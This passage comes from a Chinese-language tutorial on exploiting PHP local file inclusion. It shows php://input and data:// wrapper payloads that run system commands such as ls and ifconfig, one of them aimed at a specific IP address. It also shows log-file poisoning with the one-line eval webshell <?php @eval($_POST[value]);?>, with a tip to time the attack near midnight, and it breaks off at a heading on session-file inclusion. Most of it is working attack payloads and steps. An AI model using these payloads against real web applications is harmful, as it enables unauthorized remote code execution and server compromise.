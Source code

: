 以下分别是执行前和执行后目录下文件的变化

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpdl350vvcj30bs0283yv.jpg)

使用php://input还可以执行系统命令

post：`<?php system('ls');?>`

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpdl8ihm0lj30zi05yaan.jpg)

post：`<?php system('ifconfig');?>`

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcl6n7q0pj30zl06yjtc.jpg)

#### data://

这是一种数据流封装器，利用data://伪协议进行代码执行的思路原理和php://是类似的，都是利用了php中的流的概念，将原本的include的文件流重定向到了用户可控制的输入流中

````
http://112.74.35.205/test.php?file=data:text/plain,<?php system(ls);?>
http://112.74.35.205/test.php?file=data:text/plain,PD9waHAgc3lzdGVtKGxzKTs/Pg==(使用了base64编码)
````

这种方法同样也适用于图片木马

`http://example.com/index.php?imagedata=data://image/jpeg;base64,......`

### 3. 包含日志文件

当我们没有上传点，并且也没有url_allow_include功能时，我们就可以考虑包含服务器的日志文件，思路也比较简单，当我们访问网站时，服务器的日志中都会记录我们的行为，当我们访问链接中包含PHP一句话木马时，也会被记录到日志中。但需要注意的是，如果网站访问量大的话，日志文件可能会非常大，这时如果包含一个这么大的文件时，PHP进程可能会卡死。一般网站通常会每天生成一个新的日志文件，因此在凌晨时进行攻击相对来说容易成功。

`?file=<?php phpinfo();?>`

但是这句话会被编码，我们要抓个包修改一下，再发送请求

接着再去访问日志文件

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpadbowbd8j30y00m5tg3.jpg)

试试一句话木马

`?file=<?php @eval($_POST[value]);?>`

同样我们需要把编码了的url修改一下

然后包含日志文件，同时post`value=phpinfo();`

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpae1keujyj30zh0eujvh.jpg)

同样如果我们使用get也可以

`?file=<?php @eval($_GET['value']);?>`

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpay5xs8j9j30zh0ix42j.jpg)

### 4. 包含session文件
